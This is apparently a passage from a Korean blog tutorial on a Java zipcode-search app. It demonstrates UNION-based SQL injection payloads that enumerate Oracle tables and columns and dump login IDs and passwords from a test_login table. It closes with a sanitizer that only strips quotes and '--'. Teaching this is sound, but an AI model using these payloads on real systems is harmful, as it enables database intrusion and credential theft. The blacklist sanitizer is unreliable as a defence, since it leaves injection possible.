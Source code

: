 ```java
      searchZipcode(dong);
    }
  }
  
  @Override
  public void windowClosing(WindowEvent e) {
    zv.dispose();
  }
}    
```

* **발생 가능한 SQL Injection**
  * **UNION을 사용하여 공격을 수행.**
    *** UNION은 컬럼의 수와 데이터형이 맞지않으면 에러남**
    * 컬럼수를 계속 늘려가면서 시도한다.
  * 테이블 이름을 얻는 SQL Injection

```sql
' UNION SELECT tname, '0', '0', '0', '0' FROM tab --
```

![06](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/06.png?raw=true)

* 이렇게 뚫리면 오라클 DB란 의미
  * 여러 dictionary들을 알 수 있게됨
* 테이블의 이름을 알 수 있는 쿼리

```sql
select column_name from user_tab_cols where table_name='TEST_LOGIN';
```

* **특정 테이블의 컬럼명 얻는 SQL Injection**

```sql
' UNION SELECT column_name,data_type,'0','0','0' FROM user_tab_cols WHERE table_name='TEST_LOGIN' ---
```

![07](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/07.png?raw=true)

* **레코드 검색 SQL Injection**

```sql
' UNION SELECT id,name,pass,'0','0' FROM test_login --
```

![08](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/08.png?raw=true)

![09](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/09.png?raw=true)

* **방어코드**
  * 로그인 때와 동일하게 **작은 따옴표, 주석코드를 막음**
  * 추가로 필요하다면 SQL관련된 명령을 막는다(SELECT, UNION 등)

```java
public String blockSqlInjection(String sql) {
     return sql.replaceAll("'", "").replaceAll("--", "");
}
```

